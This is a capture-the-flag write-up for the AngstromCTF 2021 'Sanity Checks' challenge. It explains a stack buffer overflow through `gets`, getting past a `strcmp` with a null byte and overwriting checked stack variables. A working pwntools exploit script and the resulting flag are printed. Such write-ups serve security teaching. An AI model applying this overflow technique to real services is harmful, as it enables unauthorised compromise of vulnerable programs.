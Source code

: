 # AngstromCTF2021 Sanity Checks
Looking at the sourcecode we see that the application uses `gets`. We therefore know that we can use a bufferoverflow attack.

We see that `strcmp` checks the input for the string `password123`. We can mitigate this but injecting `password123` and then a null byte, because the `strcmp` will stop comparing.

Decompiling the application we wee that:
```
# 327: int main (int argc, char **argv, char **envp);
# ; var char *format @ rbp-0xe0
# ; var char *s1 @ rbp-0x60
# ; var file*stream @ rbp-0x20
# ; var uint32_t var_14h @ rbp-0x14
# ; var uint32_t var_10h @ rbp-0x10
# ; var uint32_t var_ch @ rbp-0xc
# ; var uint32_t var_8h @ rbp-0x8
# ; var uint32_t var_4h @ rbp-0x4
# 0x00401235      cmp     dword [var_4h], 0x32
# 0x00401239      jne     0x4012c1
# 0x0040123f      cmp     dword [var_8h], 0x37
# 0x00401243      jne     0x4012c1
# 0x00401245      cmp     dword [var_ch], 0xf5
# 0x0040124c      jne     0x4012c1
# 0x0040124e      cmp     dword [var_10h], 0x3d
# 0x00401252      jne     0x4012c1
# 0x00401254      cmp     dword [var_14h], 0x11
```
This we only need to add these values at their respective offsets to pass the sanity checks.

Coding it all up we get:
```
from pwn import *
password = b'password123\x00'
padding = b'A'*64
sanity_checks = b'\x11\x00\x00\x00'\
                +b'\x3d\x00\x00\x00'\
                +b'\xf5\x00\x00\x00'\
                +b'\x37\x00\x00\x00'\
                +b'\x32\x00\x00\x00'
payload = password+padding+sanity_checks

conn = remote('shell.actf.co', 21303)
conn.sendline(payload)
response = conn.recvline()
print(response)
response = conn.recvline()
print(response)
```
This returns the flag:  actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}
